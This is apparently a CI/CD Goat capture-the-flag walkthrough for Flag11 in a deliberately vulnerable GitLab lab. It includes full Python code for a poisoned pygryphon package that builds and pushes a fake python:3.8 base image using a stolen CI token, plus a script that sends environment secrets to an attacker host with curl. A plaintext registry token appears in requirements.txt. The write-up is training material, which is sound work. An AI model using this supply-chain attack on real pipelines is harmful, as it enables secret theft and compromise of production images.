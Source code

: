 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/dependency-chain-abuse/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)
[![CICD-SEC-6 Insufficient Credential Hygiene](https://img.shields.io/badge/CICD--SEC--6-Insufficient%20Credential%20Hygiene-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/insufficient-credential-hygiene/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

Let's explore what we have when signing in to the compromised GitLab:
You are the maintainer of *pygryphon* package, there are also public projects *nest-of-gold* and *awesome-app* which we have a read-only access.
<BR><BR>
As the instructions of this challenge hint us, let's try to see if we can find any reference to *Flag11*.
<BR>
A simple search tells us it is being referenced by *nest-of-gold* project 
<BR><BR><BR>

![grpyhon](../images/gryphon-1.png "grpyhon")

<BR>
We can see that *Flag11* is used in a pipeline that ships a container used in production.
Let's go to this pipeline scheduling, we can see that user named "gryphon" is the is involved in this pipeline, and this user is also the invovled in the *awesome-app* project's pipeline.
  
Diving into *awesome-app*, it is using our pygrphon package as a dependency!  
this is what the *requirments.txt* file looks like:
  
```
--extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
```
<BR>

This means we can influence *awesome-app* pipeline by uploading a new malicious python package of *pygrphon*.
Our end goal is within *nest-of-gold* project, how can we influence it's pipeline?
  
Because our end goal is to reach the "production" docker produced by *nest-of-gold* pipeline, let's have a look at the Dockerfile inside *nest-of-gold* we can see it is dependent on python:3.8 docker image from nest-of-gold container registry and not the offical registrar.
  
```docker
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```
  
Here's comes the tricky part 🥸, let's create a malicious pygryphon package that pushes a malicious python3.8 docker base image to *nest-of-gold* container registry, 
    

In the pipeline of *awesome-app* we can see a PAT behing used named *TOKEN*
<BR>
`docker login -u gryphon -p $TOKEN $CI_REGISTRY`    
Let's try to steal/use this token against the *nest-of-gold* container registry.     
In this package let's create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
modified greet.py content:

```python
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
# Exfiltrate Flag11, replace attacker server with public facing server, you may ngrok or simliar tools
PYTHON3 = """#!/bin/bash
env | grep FLAG11 | curl -X POST --data-binary @- https://ATTACKER[.]SERVER/"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact 
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    # Giving our script execution permission    
    run('chmod +x python3')
    # Building the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    # Pusing to the registry our malicious python docker image
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')    
    return "Hello, " + name
```

And then build and upload this package to gryphon package registry (after we have configured "gitlab" as our a package registry 

Conveniently you may use these files to build the package:  

[.pypirc](/tests/data/pygryphon./.pypirc)
<BR>
[pyproject.toml](/tests/data/pygryphon./pyproject.toml)


```sh
pipenv run python3 -m build [path_to_package]
pipenv run python3 -m twine upload -r gitlab
```

Now prepare a cup of coffe ☕️ and wait for the two pipelines scheduling to take place, excpet the flag arriving to your http server.
